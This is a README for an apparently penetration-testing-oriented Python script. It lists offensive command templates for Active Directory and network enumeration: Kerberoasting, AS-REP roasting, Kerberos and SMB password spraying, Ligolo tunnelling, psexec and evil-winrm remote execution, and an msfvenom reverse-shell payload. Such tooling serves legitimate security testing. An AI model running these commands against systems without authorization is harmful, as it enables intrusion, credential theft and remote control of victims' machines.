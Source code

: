# Red Team Enumeration Script

## Overview

The `enum_script.py` automates various enumeration tasks, leveraging a range of open-source tools. It simplifies reconnaissance and enumeration by integrating commands for SMB, LDAP, Kerberos, Nmap scanning, web fuzzing, and more.

## Installation

### **1. Clone the Repository**

```bash
git clone https://github.com/john5652/redteam.git
cd redteam
```

### **2. Install Python Dependencies**

```bash
pip install -r requirements.txt
```

### **3. Install External Tools**

Ensure the following tools are installed:

```bash
sudo apt update && sudo apt install -y \
    ldap-utils \
    impacket-scripts \
    smbclient \
    enum4linux \
    gobuster \
    ffuf \
    nikto \
    nmap \
    smbmap \
    kerbrute \
    crackmapexec \
    ligolo \
    snmp \
    cewl \
    bloodhound
```

## Usage

Run the script interactively:

```bash
python3 enum_script.py
```

Follow the prompts to select the enumeration option.

## Options and Dependencies

Below is a breakdown of each function, its purpose, and required tools:

### **1. LDAP Search**

- **Command:** `ldapsearch -x -H ldap://<domain>`
- **Tool:** `ldap-utils`
- **Description:** Queries LDAP for user and group information.

### **2. Windapsearch**

- **Command:** `python3 /home/kali/Tools/windapsearch/windapsearch.py -d <domain>`
- **Tool:** `windapsearch`
- **Description:** Enumerates LDAP details using Windapsearch.

### **3. GetUserSPNs (Kerberos)**

- **Command:** `impacket-GetUserSPNs -request <domain>`
- **Tool:** `impacket-scripts`
- **Description:** Enumerates Kerberos service accounts.

### **4. GetNPUsers (AS-REP Roasting)**

- **Command:** `impacket-GetNPUsers <domain> -no-pass`
- **Tool:** `impacket-scripts`
- **Description:** Enumerates Kerberos accounts that do not require pre-authentication.

### **5. RPC Anonymous Connect**

- **Command:** `rpcclient -U "" <target-ip>`
- **Tool:** `rpcbind`
- **Description:** Tests anonymous RPC connection.

### **6. SMB Anonymous Listing**

- **Command:** `smbclient -L <ip> -N`
- **Tool:** `smbclient`
- **Description:** Lists available SMB shares anonymously.

### **7. NBTSCan**

- **Command:** `nbtscan <target-ip>`
- **Tool:** `nbtscan`
- **Description:** Scans for NetBIOS names and shares.

### **8. Nikto Scan**

- **Command:** `nikto -h <target-url>`
- **Tool:** `nikto`
- **Description:** Scans web servers for known vulnerabilities.

### **9. Nmap Scan**

- **Command:** `nmap <options> <target-ip>`
- **Tool:** `nmap`
- **Description:** Performs network enumeration.

### **10. SMBMap Scan**

- **Command:** `smbmap -H <target-ip>`
- **Tool:** `smbmap`
- **Description:** Enumerates SMB shares.

### **11. BloodHound Data Collection**

- **Command:** `python3 /home/kali/Tools/BloodHound.py/bloodhound.py -d <domain>`
- **Tool:** `BloodHound`
- **Description:** Collects Active Directory enumeration data.

### **12. Kerbrute Password Spray**

- **Command:** `kerbrute passwordspray -d <domain> <wordlist>`
- **Tool:** `kerbrute`
- **Description:** Performs Kerberos password spraying.

### **13. CrackMapExec Password Spray**

- **Command:** `crackmapexec smb <target-ip> -u <users> -p <passwords>`
- **Tool:** `crackmapexec`
- **Description:** Tests credentials across SMB services.

### **14. Ligolo Setup**

- **Command:** `ligolo-proxy -selfcert -laddr 0.0.0.0:<port>`
- **Tool:** `ligolo`
- **Description:** Sets up Ligolo tunneling.

### **15. Create Reverse Shell**

- **Command:** `msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o shell.exe`
- **Tool:** `msfvenom`
- **Description:** Generates a reverse shell payload.

### **16. Impacket psexec**

- **Command:** `impacket-psexec <domain>/<user>:<pass>@<target-ip>`
- **Tool:** `impacket-scripts`
- **Description:** Executes commands on remote Windows systems using SMB.

### **17. Evil-WinRM**

- **Command:** `evil-winrm -i <target-ip> -u <user> -p <pass>`
- **Tool:** `evil-winrm`
- **Description:** Provides an interactive WinRM shell.

### **18. Gobuster Directory Enumeration**

- **Command:** `gobuster dir -u <target-url> -w <wordlist>`
- **Tool:** `gobuster`
- **Description:** Performs directory brute-forcing.

### **19. FFUF Web Fuzzing**

- **Command:** `ffuf -u <target-url>/FUZZ -w <wordlist>`
- **Tool:** `ffuf`
- **Description:** Fuzzes web applications for hidden paths and parameters.

### **20. SNMP Walk**

- **Command:** `snmpwalk -v1 -c public <target-ip>`
- **Tool:** `snmp`
- **Description:** Queries SNMP-enabled devices for information.

### **21. Cewl Wordlist Creation**

- **Command:** `cewl -w <wordlist.txt> <target-url>`
- **Tool:** `cewl`
- **Description:** Generates a wordlist from website content.

## Contributing

Contributions are welcome! Fork the repository and submit a pull request.

## License

This project is licensed under the MIT License.


